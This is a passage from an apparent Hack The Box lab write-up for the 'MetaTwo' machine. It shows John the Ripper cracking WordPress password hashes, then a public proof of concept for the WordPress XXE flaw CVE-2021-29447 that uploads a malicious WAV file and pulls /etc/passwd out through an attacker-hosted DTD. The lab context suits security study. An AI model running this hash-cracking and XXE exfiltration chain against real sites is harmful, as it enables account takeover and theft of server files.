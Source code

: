 ![htb_metatwo_hashes.png](../assets/metatwo_assets/htb_metatwo_hashes.png)

Cool, let's add these password hashes to a file and try cracking them with john:

```
┌──(ryan㉿kali)-[~/HTB/MetaTwo]
└─$ john hashes --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 128/128 ASIMD 4x2])
Cost 1 (iteration count) is 8192 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
partylikearockstar (?) 
```


John was able to successfully crack one of the hashes: `partylikearockstar`

We are now able to login to the site as user manager, however because we don't have admin privileges yet, we can't simply abuse plugins to catch a reverse shell.

Going back to my wpscan output and noting the WP version number: WordPress version 5.6.2 and looking for vulnerabilities, I find a great writeup of an XXE vulnerability: https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/

### Exploitation

Looking for a pre-written exploit to speed the process up I find: https://github.com/Val-Resh/CVE-2021-29447-POC

We can run it and confirm it works:

```
┌──(ryan㉿kali)-[~/HTB/MetaTwo]
└─$ python CVE-2021-29447.py --url http://metapress.htb --server-ip 10.10.14.114 -u manager -p 'partylikearockstar'
[*] Attempting to authenticate to http://metapress.htb/wp-login.php with manager:partylikearockstar
[*] Authenticated successfully.
[*] Generated a WAV payload with XXE.
[*] Retrieving upload nonce.
[*] Nonce retrieved successfully: 10c4e1fc1e
[*] Server listening on 10.10.14.114:45454

File to Exfiltrate: /etc/passwd
[*] Created DTD file.
[*] Uploading the WAV payload.
10.129.228.95 - - [06/Mar/2025 14:43:20] "GET /xxe.dtd HTTP/1.1" 200 -
10.129.228.95 - - [06/Mar/2025 14:43:20] "GET /xxe.dtd HTTP/1.1" 200 -
[*] WAV payload uploaded successfully.

```